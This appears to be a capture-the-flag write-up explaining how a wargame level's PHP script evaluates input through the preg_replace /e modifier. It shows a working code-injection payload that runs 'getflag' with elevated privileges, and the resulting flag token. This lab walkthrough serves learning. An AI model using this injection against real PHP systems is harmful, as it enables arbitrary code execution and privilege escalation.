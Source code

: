 # Level 06

As `level06`, running `ls` gives us a binary called `level06` and a PHP script named `level06.php` inside our home folder. Here's the sourcecode for the latter.



```php
  $> cat level06.php
  
  #!/usr/bin/php
  <?php
    function y($m) {
      $m = preg_replace("/\./", " x ", $m);
      $m = preg_replace("/@/", " y", $m);
      
      return $m;
    }

    function x($y, $z) {
      $a = file_get_contents($y);
      $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
      $a = preg_replace("/\[/", "(", $a);
      $a = preg_replace("/\]/", ")", $a);
      
      return $a; 
    }
    
    $r = x($argv[1], $argv[2]);
    print $r;
  ?>
```

> This script basically takes two arguments (the second is useless), the first one must be an existing file. It opens it, do a bunch of regular expression stuff on it and then prints the result on standard output.

The interesting part the following line:

```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

> This regex uses a deprecated PHP only modifier infamously known for its security issues. Every occurence that matches the expression will be evaluated as PHP code. If we correctly format our file content we could execute arbitrary code with it.

Running `ls -l` to get more infos...

```shell
  $> ls -l
  total 12
  -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06    
  -rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Both files belongs to `flag06` who has the right to execute `getflag`. So, like previous levels, we simply need to tinker our file content to call it and retrieve the flag. 

```shell
  $> echo '[x {${exec(getflag)}}]' > /tmp/getflag
  $> ./level06 /tmp/getflag
  PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp 
code on line 1
  PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

> Using [curly syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex) we can ask PHP to replace a variable by its value. This way after `exec` evaluation the output message of `getflag` becomes the variable we try to access. Since PHP does not know it, an error with the original output is sent back to us.

So, `wiok45aaoguiboiki2tuin6ub` is the flag for this level.
